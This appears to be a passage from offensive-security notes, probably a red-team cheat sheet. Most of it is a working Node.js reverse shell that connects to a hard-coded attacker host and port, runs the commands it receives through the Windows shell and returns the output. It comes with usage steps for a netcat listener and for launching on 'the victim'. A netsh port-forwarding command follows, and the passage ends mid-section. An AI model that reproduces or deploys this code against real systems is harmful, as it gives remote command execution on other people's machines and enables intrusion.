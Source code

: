
Example of a reverse shell (socket client)<br />
```javascript
// Example command execution.
// (1) Save this script as "client.js"
// (2) Start a netcat listener on the attacking computer "nc -nlvp 4444"
// (3) Launch the reverse shell on the victim "node.exe client.js"
// command: ABORT, terminates the script.

var net = require('net');
var spawn = require('child_process').spawn;
var c2host = '192.168.1.119';
var c2port = 4444;

var client = new net.Socket();
client.connect(c2port, c2host, function()
{
   client.write('Ready...\r\n');
});
client.on('data', function(directive)
{
   if(directive.toString().trim() === 'ABORT')
   {
      // terminate the script
      client.destroy();
      process.exit(1);
   }
   else
   {
      // execute a command
      cmd = spawn(process.env.comspec, ['/c', directive.toString().trim()], {windowsVerbatimArguments: true});
      cmd.stdout.on('data', function(output)
      {
         client.write(output.toString());
      });
      cmd.stderr.on('data', function(output)
      {
         client.write(output.toString());
      });
   }
});
```

## >> TCP port forwarding with netsh

Forward TCP port 2222 to port 22 on remote host.

`netsh interface portproxy add v4tov4 listenport=2222 listenaddress=0.0.0.0 connectport=22 connectaddress=10.192.103.49`

Remove port forwarding rule.
